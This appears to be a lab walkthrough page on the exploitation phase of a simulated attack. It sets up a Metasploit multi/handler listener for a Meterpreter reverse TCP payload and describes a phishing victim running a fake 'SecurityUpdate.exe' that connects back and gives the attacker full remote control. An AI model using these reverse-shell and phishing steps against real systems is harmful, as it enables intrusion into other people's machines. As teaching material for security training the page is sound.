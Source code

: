 # 💥 Phase 4: Exploitation

## 🎯 Objective

Trigger the execution of the malicious payload and establish a connection back to the attacker’s machine.

---

## 🧰 Step 1: Launch Metasploit Framework

Start the **Metasploit console** on the attacker’s machine:

```bash
msfconsole
```

Once loaded, configure the handler to catch the incoming reverse shell:

```bash
use exploit/multi/handler
```

---

## ⚙️ Step 2: Configure the Exploit

Match the handler settings to the payload created during the Weaponization phase:

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.19.19.134
set LPORT 4444
run
```

![Metasploit console](https://github.com/user-attachments/assets/2b9f26c2-9ef3-47ae-87fa-c33ac937abcb)

📌 **Explanation of Settings**

| Setting   | Description                                |
| --------- | ------------------------------------------ |
| `PAYLOAD` | Specifies the type of reverse shell to use |
| `LHOST`   | IP address of the attacker's machine       |
| `LPORT`   | Listening port for incoming connections    |

---

## 🧑‍💻 Victim Interaction

The victim performs the following steps:

1. Opens the phishing email and clicks the **shortened URL**.
2. Downloads `SecurityUpdate.exe` from the attacker’s Python server.
3. Executes the file using **Command Prompt with administrator privileges**.

---

## 🔄 Establishing the Connection

Once executed, the payload silently:

* Initiates a **reverse TCP session** to `10.19.19.134:4444`.
* Connects back to the attacker's Metasploit listener.
* Opens a **Meterpreter shell**, granting the attacker full remote control of the victim's Windows machine.

✅ At this point, the **exploitation is successful**, and the attacker has established command-line access for further actions.
